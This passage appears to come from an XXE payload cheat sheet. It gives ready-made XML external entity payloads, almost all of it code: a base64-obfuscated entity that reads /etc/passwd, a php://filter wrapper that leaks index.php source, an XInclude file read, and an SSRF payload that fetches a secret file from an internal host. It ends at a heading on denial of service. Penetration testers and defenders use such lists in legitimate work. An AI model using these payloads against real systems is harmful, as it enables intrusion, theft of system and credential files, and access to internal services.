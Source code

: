 #### **Classic XXE Base64 encoded**

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

#### **PHP Wrapper inside XXE**

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

#### **XInclude attacks**

When you can't modify the **DOCTYPE** element use the **XInclude** to target

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### **Exploiting XXE to perform SSRF attacks**

XXE can be combined with the [SSRF vulnerability](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) to target another service on the network.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

### **Exploiting XXE to perform a deny of service**
